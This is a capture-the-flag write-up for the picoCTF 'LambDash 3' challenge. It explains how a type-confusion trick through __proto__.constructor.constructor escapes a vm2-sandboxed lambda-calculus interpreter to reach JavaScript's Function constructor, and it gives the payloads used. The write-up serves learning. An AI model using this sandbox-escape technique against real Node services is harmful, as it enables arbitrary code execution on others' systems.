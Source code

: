 # LambDash 3
In this challenge we were given a site with an introduction to a variant of the Lambda Calculus language called SystemF, along with an online web shell. 

### Getting the source
First thing I did was sending an extremely large payload to the interpreter (endpoint: `/run`) to see what would happen. It returned a stack trace containing the path to the challenge files. I logged in to the picoCTF shell, zipped the whole directory, and downloaded it with scp. 

### Initial setup
We can see that this app is written in TypeScript and is running on NodeJS. I set it up locally to make exploiting and debugging easier. To do this, navigate to the directory named "problem" in source and run the following command:
```sh
tsc --build tsconfig.json && node --inspect ./dist/server.js
```

The app will be compiled and run on local port 4001. You can also debug it like any other Node app using Chromium DevTools by visiting `chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/<uuid>`, where <uuid> is the UUID given to you when you run the app. 

### Analysis
Okay, now we're in possession of the app's source code and the app is running locally. Let us analyze what is this app doing. If you access `/problem/src/server.ts`, you can see the source of the `/run` endpoint:
```javascript
	app.post("/run", (req, res) => {
		let code = req.body.code;
		let ast: E; 
		try {
			ast = parse(code);
		} catch (e) {
			res.send(`Error -- code did not parse<br>${e.toString()}`);
			return;
		}
		let type: Type;
		try {
			type = typecheck(ast);
		} catch (e) {
			res.send(`Error -- code did not typecheck<br>${e.toString()}`);
			return;
		}
		let vm = new vm2.NodeVM({
			timeout: 1000,
			sandbox: {
				ast,
				hidden: {
					getFlag: ((f: string) => ((x: string) => {
						if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
							return f;
						}
						return "Bad! " + x;
					}))(process.env.FLAG)
				},
			},
			require: {
				context: "sandbox",
				external: ["./emulator", "immutable"],
				root: __dirname,
			},
		});
		try {
			let result = vm.run(new vm2.VMScript(`
				let emulator = require("${__dirname}/emulator");
				module.exports = emulator.resToString(emulator.default(ast));
			`));
			console.log(result);
			res.send(`Result:<br>${result}:${typeToString(type)}`);
		} catch (e) {
			console.log("Wut", e.stack);
			res.send(`Error -- failed to execute<br>${e}`);
		}

	})
```
It does a few things:
* It parses the received code to get AST (abstract syntax tree)
* It checks if all types in the program are okay
* It runs the program in a Node sandbox of some kind, while also passing an object containing the function that we're interested in:
```javascript
hidden: {
	getFlag: ((f: string) => ((x: string) => {
		if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
			return f;
		}
		return "Bad! " + x;
	}))(process.env.FLAG)
},
```
* It prints the result of the program to the user

As such, our objective is clear: it's to submit a piece of code to /run that would run `hidden.getFlag("if you can get this you deserve the flag -> abcd1234!@#$%^&*()'")` and return the result. Easy enough, isn't it? Well, I found it everything _but_ easy, as my knowledge of both JS and functional programming is pretty much non-existent. At this point I started learning from the provided tutorial, submitting different programs, analyzing them, analyzing the code of the interpreter (located in `/problem/src/emulator.ts`), and so on. It took me about 10 hours.

### Exploitation
LC = Lambda Calculus SystemF, the language used in this task

*While writing this solution, it occurred to me that my original solution was a bit needlessly complicated and contained some redundancy. This solution is slightly more reasonable. You can find the original payload that I used to solve this task in payload_old.txt.*

There is only one bug that we need to find in order to solve this task, and everything else is its consequence.
LC has tuples and optional types, both of which are implemented as JS objects. Therefore, if you have tuple consisting of int f and int g, it will internally exist as a JS object, such as:
```javascript
{
    f: 5
    g: 10
}
```
Optional type is very similar, except there is just one variable in it. When the interpreter wants to do something with an optional type, it iterates over the possible parameter names and checks if a parameter is present in the object (`object[name] != undefined`).
Objects to be used as tuples/optionals are created using this function (you can find it in `/problem/src/emulator.ts`):
```javascript
function getCleanObject(): { [key: string]: any } {
	let obj = {};
	for (let prop of Object.getOwnPropertyNames((obj as any).__proto__)) {
		(obj as any)[prop] = undefined;
	}
	(obj as any).__proto__ = undefined;
	return obj;
}
```
_Now comes the part that I still cannot fully comprehend, some help from a NodeJS expert would be greatly appreciated._

The most important part of the solution is to figure out that this function doesn't really work. I'm not sure why, but it probably has to do with Node internals. If you create an object using `a = getCleanObject()`, it will **still have** the `__proto__` attribute, instead of having it undefined, which means you can reference `a['__proto__']`. 
Knowing that in any optional the `__proto__` attribute is always set, we can define an optional with 
```< `__proto__ { `constructor { `constructor int }} + `val int>```, 
and proceed to create a new instance of it with `val` set to a number. While processing this optional, we can tell the interpreter to look for the `__proto__` attribute first. It will of course find it, thinking that it is a tuple containing an attribute called `constructor`, which in turn is another tuple containing an attribute called `constructor`. So, by extracting it, we do something like:
```javascript
a = {}
a['__proto__']['constructor']['constructor']
```
Which gives us the JavaScript function constructor. How to do it in LC? Here's the code:
```
(alias opta = < `__proto__ { `constructor { `constructor int -> (int -> int)}} + `val int -> (int -> int)> in
(lambda argb:opta.
    case(argb) {
        `__proto__ rr -> rr#`constructor#`constructor
        | `val rr -> rr}
)(`val (lambda xx:int.lambda xxx:int.xx) as opta))
```
I changed the parameter types from int to int -> (int -> int), because we need to call this constructor, and then call the function that it returns. So now we've fooled the interpreter into thinking that the JavaScript function constructor is a lambda expression taking an int and returning another lambda expression, which in turn takes an int and returns an int. Complicated, but now we're just one step away from victory, and the question is: how to pass a string to that function?

Well, LC doesn't have strings, so we have to implement them ourselves, which was easy compared to the rest of the task.
We can use the exact same trick as before, but this time let's retrieve the String.fromCharCode method instead.
In JS that would be:
```javascript
a['__proto__']['constructor']['name']['constructor']['fromCharCode']
```
As translated to LC:
```
(alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta))
```
We can then call this lambda by passing an int to it, and we receive the corresponding char (which the interpreter thinks is an int).
All that's left is to concatenate those chars using a different lambda, pass the string to the function constructor, and call the result. 
Example demonstrating the construction of a two char long string:
```
(lambda a : int.
lambda b : int.
    a + b)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 65)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 66)
```
After preparing the full payload and pasting it to the site, we got the flag: picoCTF{1_white_lie_and_your_proto_gets_pwnd_4679389f}
The full payload is available in payload.txt.
